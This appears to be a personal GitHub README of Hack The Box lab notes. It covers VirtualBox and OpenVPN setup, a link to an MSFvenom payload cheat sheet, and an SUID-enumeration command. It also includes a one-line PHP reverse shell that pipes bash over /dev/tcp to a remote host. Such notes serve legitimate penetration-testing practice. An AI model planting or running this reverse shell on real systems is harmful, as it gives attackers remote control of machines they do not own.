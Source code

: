 # HTB-Note
note about Hack The Box

## Virtual Box Setting

### Run GuestAddictionsCD

```Shell
cd /media/
sudo mount /dev/cdrom /media/cdrom1
cd /cdrom1
sudo ./VBoxLinuxAdditions.run 
reboot
```

### Open VPN

- Download ovpn file **for VIP account**

```Shell
sudo openvpn --config ./Desktop/yufujioka.ovpn
```

## CheatShhet

### MSFvenom

- [MSFvenom ~ ペイロード早見表 ~](https://qiita.com/mr-wacker/items/0ec926951ffa5a4d197c)

### Reverse Shell

- [A tiny PHP/bash reverse shell.](https://gist.github.com/rshipp/eee36684db07d234c1cc#gistcomment-3100663)
```php
<?php
exec("/bin/bash -c 'bash -i > /dev/tcp/10.0.0.10/1234 0>&1'");
```

### Privilege escalation

#### find SUID 

```shell
find / -perm -u=s -type f 2>/dev/null
```
